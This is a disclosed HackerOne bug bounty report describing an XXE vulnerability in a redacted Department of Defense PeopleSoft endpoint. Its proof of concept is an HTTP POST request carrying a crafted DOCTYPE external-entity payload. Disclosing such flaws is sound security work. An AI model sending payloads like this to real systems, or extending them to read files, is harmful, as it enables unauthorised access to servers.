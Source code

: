 # XXE in DoD website that may lead to RCE

## Report Details
- **Report ID**: 227880
- **URL**: https://hackerone.com/reports/227880
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-05-12T10:41:43.936Z
- **Disclosed**: 2019-10-04T15:22:27.419Z

## Reporter
- **Username**: jin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
XXE in https://█████

**Description:**
A malicious user can modify an XML-based request to include XML content that is then parsed locally.

## Impact
An attacker can use an XML external entity vulnerability to send specially crafted unauthorized XML requests, which will be processed by the XML parser. The attacker can use an XML external entity vulnerability for getting unauthorised access to the OS file system.

## PoC

```
POST /PSIGW/PeopleSoftServiceListeningConnector HTTP/1.1
Host: https://███
Content-type: text/xml
Content-Length: 50

<!DOCTYPE a PUBLIC "-//B/A/EN" "HELLO_XXE"><a></a>
```

## Attachments
No attachments
